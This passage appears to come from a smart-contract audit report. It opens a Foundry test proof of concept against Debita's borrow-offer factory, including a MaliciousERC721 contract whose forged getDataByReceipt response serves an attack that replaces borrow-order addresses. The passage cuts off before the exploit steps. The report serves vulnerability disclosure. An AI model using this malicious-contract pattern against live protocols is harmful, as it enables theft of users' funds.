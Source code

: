 ### Code Snippet

Following test creates a borrower borrow order and implements attack to replace the borrower borrow order address in `allActiveBorrowOrders` mapping.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol"; // Optional, for logging during tests

import {DBOFactory} from "@contracts/DebitaBorrowOffer-Factory.sol";
import {DBOImplementation} from "@contracts/DebitaBorrowOffer-Implementation.sol";
import {DynamicData} from "../interfaces/getDynamicData.sol";
import {IDBOFactory} from "./interfaces/IDBOFactory.sol";
import {IDBOImplementation} from "./interfaces/IDBOImplementation.sol";

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";

contract MaliciousERC721 is ERC721 {

    DynamicData public allDynamicData;
    address factoryAddress;
    address Alice;
    uint receiptID = 1;
    mapping(uint => string) private receiptData;

    struct receiptInstance {
        uint receiptID;
        uint attachedNFT;
        uint lockedAmount;
        uint lockedDate;
        uint decimals;
        address vault;
        address underlying;
    }

    // in constror set the factory contract address
    constructor(address _factoryAddress) ERC721("MaliciousNFT", "MNFT") {
        factoryAddress = _factoryAddress;
    }

    function mint(address to, uint256 id) public {
        _safeMint(to, id);
    }

    // for DebitaBorrowOffer-Implementation.sol:105
    function getDataByReceipt(uint _receiptID) public view returns (receiptInstance memory) {

        receiptInstance memory instance = receiptInstance({
                receiptID: _receiptID,
                attachedNFT: 0,
                lockedAmount: 0, 
                lockedDate: 0,
                decimals: 0,
                vault: address(0x0),
                underlying: address(0x0)
        });

        return instance;
    }
```